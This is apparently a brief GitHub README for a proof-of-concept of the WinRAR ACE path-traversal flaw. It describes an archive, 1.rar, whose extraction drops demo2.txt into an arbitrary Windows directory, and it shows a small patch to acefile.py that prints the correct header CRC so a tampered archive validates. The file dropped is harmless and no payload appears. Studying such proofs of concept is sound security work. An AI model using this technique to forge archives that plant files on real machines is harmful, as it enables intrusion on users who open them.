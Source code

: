 # acefile

poc file of [extracting-code-execution-from-winrar](https://research.checkpoint.com/extracting-code-execution-from-winrar/)

check the file use command:
```
python acefile.py --headers 1.rar
```

When the 1.rar is unzipped, a file named demo2.txt will be released to dir `c:\c2\demo123\`.


Modification of acefile.py:
```
      if ace_crc16(buf) != hcrc:
            print("[+] right_hdr_crc : {} | struct {} ".format(hex(ace_crc16(buf)),struct.pack('<H', ace_crc16(buf))))
            print("[*] current_hdr_crc : {} | struct {}".format(hex(hcrc),struct.pack('<H', hcrc)))
```

output acefile right crc for change the rar file ~ 

thx for the author of acefile.py [@droe](https://github.com/droe)